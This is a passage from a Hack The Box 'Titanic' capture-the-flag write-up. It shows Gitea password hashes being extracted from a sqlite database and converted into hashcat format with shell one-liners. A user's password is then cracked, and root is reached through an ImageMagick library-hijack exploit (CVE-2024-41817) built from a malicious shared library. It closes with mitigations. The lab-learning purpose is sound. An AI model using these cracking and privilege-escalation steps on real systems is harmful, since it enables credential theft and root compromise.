2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
3|hacker|hacker||hacker@hacker.ru|0|enabled|99a167607553790050528075f477f2c0a3bc1992c034933e5f2c4755868a52bd8f1d38b3e83221f7c8f4b1a5f7086db74c88|pbkdf2$50000$50|0|0|0||0|||c061de797ce93cf1a944bf327bb523b4|f940fdb3aabaf3e7017d0445b4aef04f|en-US||1741713638|1741714312|1741713638|0|-1|1|0|0|0|0|1|0|f8ae9423346171af497ea0424555ed87|hacker@hacker.ru|0|1|1|0|0|0|0|0|0|unified|gitea-auto|0
4|tetarone|tetarone||asdj@asd.com|0|enabled|5d3100cacd4e68a9b8745239f7b2f24ad3001a22aa151adc46c07eec4fe96ceb4c97ad84a8274b8eaf683362da1f76fa4b3d|pbkdf2$50000$50|0|0|0||0|||8338a4b2efdc4fb2b091fd3999217b0f|181e935cd5c960ae8a58772f299a0167|en-US||1741715326|1741715384|1741715326|0|-1|1|0|0|0|0|1|0|d9dedc2b60fec0daec74d40bdb158e18|asdj@asd.com|0|1|1|0|0|0|0|0|0||gitea-auto|0
5|0xtest|0xtest||0xtest@gmail.com|0|enabled|77afe868ff1b7d98ce9415fa2e7a75b61d8fbb658397662b0d252e831fc07798a48d3ef8d9439f6e41fded7a9ac631539e8a|pbkdf2$50000$50|0|0|0||0|||51f118dacf8da0c4d942148f06e2c9e8|ecd1b06a773e17c2a7cc5cd58d2cca07|en-US||1741715752|1741715754|1741715752|0|-1|1|0|0|0|0|1|0|2ce4d6809f757f3440a2ac944b3eb2f9|0xtest@gmail.com|0|0|0|0|0|0|0|0|0||gitea-auto|0
Let's do a .schema (like desc from sql) to see which columns are the important ones:
sqlite> .schema user
CREATE TABLE `user` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `full_name` TEXT NULL, `email` TEXT NOT NULL, `keep_email_private` INTEGER NULL, `email_notifications_preference` TEXT DEFAULT 'enabled' NOT NULL, `passwd` TEXT NOT NULL, `passwd_hash_algo` TEXT DEFAULT 'argon2' NOT NULL, `must_change_password` INTEGER DEFAULT 0 NOT NULL, `login_type` INTEGER NULL, `login_source` INTEGER DEFAULT 0 NOT NULL, `login_name` TEXT NULL, `type` INTEGER NULL, `location` TEXT NULL, `website` TEXT NULL, `rands` TEXT NULL, `salt` TEXT NULL, `language` TEXT NULL, `description` TEXT NULL, `created_unix` INTEGER NULL, `updated_unix` INTEGER NULL, `last_login_unix` INTEGER NULL, `last_repo_visibility` INTEGER NULL, `max_repo_creation` INTEGER DEFAULT -1 NOT NULL, `is_active` INTEGER NULL, `is_admin` INTEGER NULL, `is_restricted` INTEGER DEFAULT 0 NOT NULL, `allow_git_hook` INTEGER NULL, `allow_import_local` INTEGER NULL, `allow_create_organization` INTEGER DEFAULT 1 NULL, `prohibit_login` INTEGER DEFAULT 0 NOT NULL, `avatar` TEXT NOT NULL, `avatar_email` TEXT NOT NULL, `use_custom_avatar` INTEGER NULL, `num_followers` INTEGER NULL, `num_following` INTEGER DEFAULT 0 NOT NULL, `num_stars` INTEGER NULL, `num_repos` INTEGER NULL, `num_teams` INTEGER NULL, `num_members` INTEGER NULL, `visibility` INTEGER DEFAULT 0 NOT NULL, `repo_admin_change_team_access` INTEGER DEFAULT 0 NOT NULL, `diff_view_style` TEXT DEFAULT '' NOT NULL, `theme` TEXT DEFAULT '' NOT NULL, `keep_activity_private` INTEGER DEFAULT 0 NOT NULL);
CREATE UNIQUE INDEX `UQE_user_name` ON `user` (`name`);
CREATE UNIQUE INDEX `UQE_user_lower_name` ON `user` (`lower_name`);
CREATE INDEX `IDX_user_is_active` ON `user` (`is_active`);
CREATE INDEX `IDX_user_created_unix` ON `user` (`created_unix`);
CREATE INDEX `IDX_user_updated_unix` ON `user` (`updated_unix`);
CREATE INDEX `IDX_user_last_login_unix` ON `user` (`last_login_unix`);
Ok, I think that the name, passwd, passwd_hash_algo, rands and salt columns are the important thing here, I do a select:
sqlite> select name, passwd, passwd_hash_algo, rands, salt from user;
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34
hacker|99a167607553790050528075f477f2c0a3bc1992c034933e5f2c4755868a52bd8f1d38b3e83221f7c8f4b1a5f7086db74c88|pbkdf2$50000$50|c061de797ce93cf1a944bf327bb523b4|f940fdb3aabaf3e7017d0445b4aef04f
tetarone|5d3100cacd4e68a9b8745239f7b2f24ad3001a22aa151adc46c07eec4fe96ceb4c97ad84a8274b8eaf683362da1f76fa4b3d|pbkdf2$50000$50|8338a4b2efdc4fb2b091fd3999217b0f|181e935cd5c960ae8a58772f299a0167
0xtest|77afe868ff1b7d98ce9415fa2e7a75b61d8fbb658397662b0d252e831fc07798a48d3ef8d9439f6e41fded7a9ac631539e8a|pbkdf2$50000$50|51f118dacf8da0c4d942148f06e2c9e8|ecd1b06a773e17c2a7cc5cd58d2cca07
Searching on the internet I stumble upon this post:
- https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash
The hash algorithm is pbkdf2$50000$50, which would mean that the round of iterations is 5000, this means that the hash hash been hashed 5000 times. Then, we have to pass the hash from hex to base64 to then feed it to hashcat, this is because the example hashes from the official hashcat web uses base64 instead of hexadecimal . I use the same oneliner used on the post by 0xdf.
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ sqlite3 gitea.db "select passwd from user" | while read hash; do echo "$hash" | xxd -r -p | base64; done
y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
maFnYHVTeQBQUoB19HfywKO8GZLANJM+XyxHVYaKUr2PHTiz6DIh98j0saX3CG23TIg=
XTEAys1OaKm4dFI597LyStMAGiKqFRrcRsB+7E/pbOtMl62EqCdLjq9oM2LaH3b6Sz0=
d6/oaP8bfZjOlBX6Lnp1th2Pu2WDl2YrDSUugx/Ad5ikjT742UOfbkH97XqaxjFTnoo=
What this does:
- sqlite3 gitea.db "select passwd from user" Sqlite query to select the hash for each user
- while read hash; do echo "$hash" For each hash, echo it, this is used to redirect the output of each hash individually to the other commands piped
- xxd -r -p to convert to hexadecimal to human redable
- base64 to finally convert the human readable to base64
- done is closing the while loop
And we have converted the hexadecimal hashes to base64.
Now, the next onliner seems complex at first, but instead of selecting only the passwd this time, it selects the passwd, salt and name. Does a while for each line, like on the other oneliner. And then, it separates the different variables with cut, does the same procedure with the hash, and finally outputs the 3 variables, with the sha256:50000 string in the middle, formatting it for then feeding it directly to the hashcat. It also stores it on the gitea.hashes file.
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
hacker:sha256:50000:+UD9s6q68+cBfQRFtK7wTw==:maFnYHVTeQBQUoB19HfywKO8GZLANJM+XyxHVYaKUr2PHTiz6DIh98j0saX3CG23TIg=
tetarone:sha256:50000:GB6TXNXJYK6KWHcvKZoBZw==:XTEAys1OaKm4dFI597LyStMAGiKqFRrcRsB+7E/pbOtMl62EqCdLjq9oM2LaH3b6Sz0=
0xtest:sha256:50000:7NGwanc+F8KnzFzVjSzKBw==:d6/oaP8bfZjOlBX6Lnp1th2Pu2WDl2YrDSUugx/Ad5ikjT742UOfbkH97XqaxjFTnoo=
I remove all the hashes but the administrator and developer, I think the other are from other users playing on the machine that created an account (my user test01 is not there, possibly because the machine was reseted)
Credit to 0xdf for the commands!
Let's do the hashcat. I use the --user flag to ignore the usernames on the file.
┌──(oriol㉿zero)-[~/htb/titanic]
└─$ hashcat gitea.hashes /usr/share/wordlists/rockyou.txt.gz --user
hashcat (v6.2.6) starting in autodetect mode
OpenCL API (OpenCL 3.0 PoCL 6.0+debian Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 9 9900X 12-Core Processor, 11465/22995 MB (4096 MB allocatable), 12MCU
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:
10900 | PBKDF2-HMAC-SHA256 | Generic KDF
NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP
Watchdog: Temperature abort trigger set to 90c
Host memory required for this attack: 3 MB
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
After some seconds a password is cracked! This is from the developer user. We know that this is also a system user from the /etc/passwd file, so let's try to log in via ssh.
developer@titanic:~$ whoami
developer
Yes!
Privilege escalation
The developer user doesn't have any sudo permissions on this server...
developer@titanic:~$ sudo -l
[sudo] password for developer:
Sorry, user developer may not run sudo on titanic.
Let's see files with SUID permisions. A file that has suid permissions can be executed as the owner, that means, that if the file owner is root, it can be executed as root without password. This is very interesting to do a privilege escalation.
developer@titanic:~$ find / -perm -4000 2>/dev/null
/snap/core20/2434/usr/bin/chfn
/snap/core20/2434/usr/bin/chsh
/snap/core20/2434/usr/bin/gpasswd
/snap/core20/2434/usr/bin/mount
/snap/core20/2434/usr/bin/newgrp
/snap/core20/2434/usr/bin/passwd
/snap/core20/2434/usr/bin/su
/snap/core20/2434/usr/bin/sudo
/snap/core20/2434/usr/bin/umount
/snap/core20/2434/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2434/usr/lib/openssh/ssh-keysign
/snap/snapd/23545/usr/lib/snapd/snap-confine
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/mount
/usr/bin/fusermount3
I don't see any exploitable files with suid...
Nothing remarkable on the running processes...
developer@titanic:~$ ps -aux
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
develop+ 1155 5.1 0.9 1065012 37716 ? Ss 15:35 21:15 /usr/bin/python3 /opt/app/app.py
develop+ 1786 0.6 4.6 1541900 185980 ? Ssl 15:36 2:32 /usr/local/bin/gitea web
develop+ 724977 0.0 0.2 17184 9716 ? Ss 18:02 0:01 /lib/systemd/systemd --user
develop+ 729199 0.0 0.1 8300 4108 ? Ss 18:04 0:00 /usr/bin/dbus-daemon --session --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
develop+ 767824 0.0 0.1 9380 6180 pts/0 Ss+ 19:00 0:00 -bash
develop+ 824118 0.0 0.1 8656 5480 pts/1 Ss 20:22 0:00 -bash
develop+ 869182 0.0 0.1 8656 5324 pts/2 Ss+ 22:24 0:00 -bash
develop+ 869273 0.0 0.0 10336 3632 pts/1 R+ 22:27 0:00 ps -aux
Let's see the local connections if there is something running (I also remember I have the credentials of a mysql database found on the gitea)
developer@titanic:~$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State
tcp 0 0 0.0.0.0:ssh 0.0.0.0:* LISTEN
tcp 0 0 localhost:domain 0.0.0.0:* LISTEN
tcp 0 0 localhost:35099 0.0.0.0:* LISTEN
tcp 0 0 localhost:2222 0.0.0.0:* LISTEN
tcp 0 0 localhost:3000 0.0.0.0:* LISTEN
tcp 0 0 localhost:5000 0.0.0.0:* LISTEN
tcp6 0 0 [::]:http [::]:* LISTEN
tcp6 0 0 [::]:ssh [::]:* LISTEN
udp 0 0 localhost:domain 0.0.0.0:*
udp 0 0 0.0.0.0:bootpc 0.0.0.0:*
Active UNIX domain sockets (only servers)
Proto RefCnt Flags Type State I-Node Path
unix 2 [ ACC ] STREAM LISTENING 22974 /var/snap/lxd/common/lxd/unix.socket
unix 2 [ ACC ] STREAM LISTENING 22976 /var/snap/lxd/common/lxd-user/unix.socket
unix 2 [ ACC ] STREAM LISTENING 25332 /var/run/fail2ban/fail2ban.sock
unix 2 [ ACC ] STREAM LISTENING 1823474 /run/user/1000/systemd/private
unix 2 [ ACC ] STREAM LISTENING 18576 /run/systemd/private
unix 2 [ ACC ] STREAM LISTENING 1823481 /run/user/1000/bus
unix 2 [ ACC ] STREAM LISTENING 18589 @/org/kernel/linux/storage/multipathd
unix 2 [ ACC ] STREAM LISTENING 18578 /run/systemd/userdb/io.systemd.DynamicUser
unix 2 [ ACC ] STREAM LISTENING 26456 /run/containerd/containerd.sock.ttrpc
unix 2 [ ACC ] STREAM LISTENING 18579 /run/systemd/io.system.ManagedOOM
unix 2 [ ACC ] STREAM LISTENING 1823483 /run/user/1000/gnupg/S.dirmngr
unix 2 [ ACC ] STREAM LISTENING 26458 /run/containerd/containerd.sock
unix 2 [ ACC ] STREAM LISTENING 1823485 /run/user/1000/gnupg/S.gpg-agent.browser
unix 2 [ ACC ] STREAM LISTENING 1823488 /run/user/1000/gnupg/S.gpg-agent.extra
unix 2 [ ACC ] STREAM LISTENING 1823490 /run/user/1000/gnupg/S.gpg-agent.ssh
unix 2 [ ACC ] STREAM LISTENING 1823492 /run/user/1000/gnupg/S.gpg-agent
unix 2 [ ACC ] STREAM LISTENING 18587 /run/lvm/lvmpolld.socket
unix 2 [ ACC ] STREAM LISTENING 1823494 /run/user/1000/pk-debconf-socket
unix 2 [ ACC ] STREAM LISTENING 26502 /var/run/docker/metrics.sock
unix 2 [ ACC ] STREAM LISTENING 1823496 /run/user/1000/snapd-session-agent.socket
unix 2 [ ACC ] STREAM LISTENING 18592 /run/systemd/fsck.progress
unix 2 [ ACC ] STREAM LISTENING 18603 /run/systemd/journal/stdout
unix 2 [ ACC ] SEQPACKET LISTENING 18606 /run/udev/control
unix 2 [ ACC ] STREAM LISTENING 20279 /run/systemd/journal/io.systemd.journal
unix 2 [ ACC ] STREAM LISTENING 27929 /var/run/docker/libnetwork/285880c12fdf.sock
unix 2 [ ACC ] STREAM LISTENING 28277 /run/containerd/s/80cf3dd9341676c89bf9b573f878bf3137f1050018c9b6ca15b8c3c8ea7c3f55
unix 2 [ ACC ] STREAM LISTENING 22969 /run/dbus/system_bus_socket
unix 2 [ ACC ] STREAM LISTENING 22971 /run/docker.sock
unix 2 [ ACC ] STREAM LISTENING 22978 /run/snapd.socket
unix 2 [ ACC ] STREAM LISTENING 22980 /run/snapd-snap.socket
unix 2 [ ACC ] STREAM LISTENING 22982 /run/uuidd/request
unix 2 [ ACC ] STREAM LISTENING 22973 @ISCSIADM_ABSTRACT_NAMESPACE
unix 2 [ ACC ] STREAM LISTENING 23043 /run/irqbalance/irqbalance899.sock
unix 2 [ ACC ] STREAM LISTENING 19277 /var/run/vmware/guestServicePipe
unix 2 [ ACC ] STREAM LISTENING 22181 /run/systemd/resolve/io.systemd.Resolve
I don't see the mysql running on the port specified on the docker file. What catches my attention is what is running on port 35099.
developer@titanic:~$ netstat -ano | grep 35099
tcp 0 0 127.0.0.1:35099 0.0.0.0:* LISTEN off (0.00/0/0)
I don't know what that is... That port is marked as "unassigned" and is not a part of any protocol. Maybe some reverse shell from a user(?)
After searching for a bit, on the opt directory, which is where the optional packages are installed, I see this promising folders inside:
developer@titanic:/opt$ ls
app containerd scripts
The app folder is the python page. I can't access to the cantainered folder but yes on scripts
developer@titanic:/opt$ ls containerd/
ls: cannot open directory 'containerd/': Permission denied
developer@titanic:/opt$ ls scripts
identify_images.sh
Reading the script I see that it uses magik to identify the images.
developer@titanic:/opt/scripts$ cat identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
If I remember correctly, magik has some vulnerabilites we can exploit with the magic numbers to execute remote code, and also as root (I first found about this doing the Pilgrimage box)
More info on this page: - https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8
Following the POC of the github link, I create a shared library on the directory that magik will do the identify function, which can be seen at the top of the script (cd /opt/app/static/assets/images). What is important here is the command that will be executed, it's on the system line. I don't copy directly the file because that will also copy the permissions, instead I do a cat and a redirect:
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
system("cat /root/root.txt > /tmp/zero/root.txt");
exit(0);
}
EOF
Create the file where the output will go, and execute the script.
developer@titanic:/opt/app/static/assets/images$ mkdir /tmp/zero
developer@titanic:/opt/app/static/assets/images$ /opt/scripts/identify_images.sh
truncate: cannot open 'metadata.log' for writing: Permission denied
/opt/scripts/identify_images.sh: line 3: metadata.log: Permission denied
And that's it that's the flag!
developer@titanic:/opt/app/static/assets/images$ cat /tmp/zero/root.txt
a5a3edc442ab
I found a very interesting article which goes in detail about this magetrick cve:
- https://mindpatch.medium.com/cve-2024-41817-how-env-var-triggers-rce-in-imagemagicks-appimage-14d54aba5613
If I wanted to create a reverse shell as root, simply put the reverse shell inside the system() function on the shared library and set up the listener.
Solutions
- Have a different dev environment, maybe even not reachable from the internet, internal, this way gitea would we in another server and we wouldn't have access to it.
- Sanitize input, always consider that an attacker can modify the variables on the same link.
- Use other functions to complement wit os.path.join, like
secure_filenamefrom werkzeug, which sanitizes the input, use a whitelist for the tickets names, ... - If possible, update all software packages
Links used
- https://www.geeksforgeeks.org/python-os-path-join-method/
- https://docs.gitea.com
- https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8
- https://deephacking.tech/local-file-inclusion-lfi-web/
- https://deephacking.tech/permisos-sgid-suid-y-sticky-bit-linux/
- https://mindpatch.medium.com/cve-2024-41817-how-env-var-triggers-rce-in-imagemagicks-appimage-14d54aba5613
- https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash